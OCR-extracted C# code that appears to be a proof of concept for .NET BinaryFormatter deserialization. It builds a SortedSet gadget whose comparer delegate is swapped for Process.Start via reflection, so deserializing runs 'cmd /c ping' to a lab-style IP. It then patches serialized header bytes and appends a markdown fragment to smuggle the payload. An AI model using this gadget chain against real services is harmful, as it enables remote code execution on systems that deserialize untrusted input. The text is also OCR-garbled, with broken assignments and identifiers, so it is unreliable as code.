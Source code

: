 var singleDelegate = new Comparison<string>(String.Compare);
var multiDelegate = singleDelegate + singleDelegate;
var comparer = Comparer<string>.Create(multiDelegate); 
var invocationList= multiDelegate.GetInvocationList();
var gadget= new SortedSet<string>(comparer) {"cmd", $"/c ping -n 2 10.10.14.16"};
invocationList[1] = new Func<string,string,Process>(Process.Start);
var field = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
field.SetValue(multiDelegate, invocationList);

var binaryFormatter = new BinaryFormatter; 
var stream = new MemoryStream();
binaryFormatter.Serialize (stream, gadget);
stream.Position = 0 ; 
var binary Payload = stream.TOArray();

var count = 0;

for (int i = 0; i < binaryPayload.Length - 4;i++)
{
if (binaryPayload[i] == 0x01 && binaryPayload[i+1] ==0x00 && binaryPayload[i+2] ==0x00 && binaryPayload[i+3] == 0x00)
{
count++;
if (count ==1 || count ==3){
binaryPayload[i] ==0x00;
binaryPayload[i+1] ==0xFE;
binaryPayload[i+2] ==0xFF;
}
if (count >=3){
break;}
}
}
  
var markdownPayload = Encoding.UTF8.GetBytes("\n```**Header**\t");

var result = new byte[binaryPayload.Length + markdownPayload.Length];

Array.Copy(binaryPayload, result, binaryPayload.Length);

Array.Copy(markdownPayload,0, result, binaryPayload.Length, markdownPayload.Length);

